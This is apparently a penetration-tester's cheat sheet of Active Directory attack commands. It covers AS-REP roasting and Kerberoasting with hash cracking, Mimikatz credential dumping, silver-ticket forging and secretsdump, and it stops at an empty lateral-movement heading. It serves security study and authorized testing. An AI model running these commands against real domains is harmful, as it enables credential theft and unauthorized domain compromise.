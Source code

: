 #### AS-REP Roasting

```bash
impacket-GetNPUsers -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD -request  #this gives us the hash
Rubeus.exe asreproast /nowrap  #dumping from compromised windows host
hashcat -m 18200 hashes.txt wordlist.txt --force  # cracking hashes
```

#### Kerberoasting

```bash
Rubeus.exe kerberoast /outfile:hashes.kerberoast  #dumping from compromised windows host
impacket-GetUserSPNs -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD -request  #from kali machine
hashcat -m 13100 hashes.txt wordlist.txt --force  # cracking hashes
```

#### Silver Tickets

* Obtaining hash of an SPN user using Mimikatz

```
privilege::debug
sekurlsa::logonpasswords  #obtain NTLM hash of the SPN account here
```

* Obtaining Domain SID

```powershell
ps> whoami /user
```

* this gives SID of the user that we're logged in as. If the user SID is "S-1-5-21-1987370270-658905905-1781884369-1105" then the domain SID is "S-1-5-21-1987370270-658905905-1781884369"
* Forging silver ticket using Mimikatz

```
kerberos::golden /sid:<domainsid> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user>
exit
```

* we can check the tickets by,

```powershell
ps> klist
```

* Accessing service

```powershell
ps> iwr -UseDefaultCredentials [http://web04.corp.com:8080/](http://web04.corp.com:8080/)
```

#### Secretsdump

```bash
[secretsdump.py](http://secretsdump.py) DOMAIN/USERNAME:PASSWORD@TARGET_IP
```

#### Lateral Movement in Active Directory
